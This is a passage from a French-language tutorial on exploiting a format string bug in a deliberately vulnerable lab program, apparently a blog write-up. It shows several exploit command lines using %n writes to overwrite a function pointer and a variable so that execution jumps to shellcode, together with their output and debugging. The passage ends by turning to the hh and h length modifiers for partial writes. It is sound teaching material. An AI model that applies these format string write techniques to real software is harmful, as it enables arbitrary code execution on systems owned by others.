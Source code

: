 Cette valeur plus grosse fait augmenter la longueur de notre chaîne d'un caractère par rapport à tout à l'heure. Pour corriger il faut retirer un octet de padding et remplacer à nouveau les valeurs. Comme on n'utilisait pas de padding on remplace juste `.8x` par `nB`.  

Et contre toute attente :  

```console
oj@hell:~$ ./vuln $'\xdc\xfb\xff\xbf'%.3221224919x%130\$nB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffbdc
shellcode addr=0xbffffddb
#start a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
����1B
#end  a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
Segmentation fault
```

WTF !? Essayons d'écrire dans la variable `a` à la place du pointeur sur fonction afin d'obtenir un output :  

```console
oj@hell:~$ ./vuln $'\xd8\xfb\xff\xbf'%.3221224919x%130\$nB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffbdc
shellcode addr=0xbffffddb
#start a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
����1B
#end  a=5, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
Program terminated with success
```

Vraiment étrange : non seulement nous ne sommes pas parvenu à écraser la variable `a` mais en plus le `printf` n'a pas affiché grand chose à l'écran (alors que l'on devrait avoir une chaîne immense).  

Si on remplace le premier `3` de `%.3221224919x` par un 0 alors le *printf* s'exécute bien :  

```console
oj@hell:~$ ./vuln $'\xd8\xfb\xff\xbf'%.0221224919x%130\$nB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffbdc
shellcode addr=0xbffffddb
#start a=1, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
--- snip ---00000001B
#end  a=221224923, b=2, c=3 - x=0xbffffbd8, y=0xbffffbd4, z=0xbffffbd0
Program terminated with success
```

Le bug ne vient pas de nous mais de `printf` qui a du mal à digérer la chaîne de format qui demande d'afficher beaucoup trop de caractères (ça demande beaucoup de mémoire et `printf` a ses limites de conception). Ça marchait très bien pour l'adresse de la fonction `secret` présente dans le segment de code mais l'adresse du shellcode sur la base de la pile est bien trop grande.  

Heureusement il existe des formateurs qui permettent d'écrire un plus petit nombre d'octets (pas directement les 4 octets de l'adresse).  

La contrepartie c'est que l'écriture devra être faite en plusieurs fois... On n'a rien sans rien :)  

La section *The length modifier* de la page de manuel de printf nous renseigne sur deux options de format :  

> hh : A following integer conversion corresponds to a signed char or unsigned char argument, or a following n conversion corresponds to a pointer to a signed char argument.  
> 
> h : A following integer conversion corresponds to a short int or unsigned short int argument, or a following n conversion corresponds to a pointer to a short int argument.
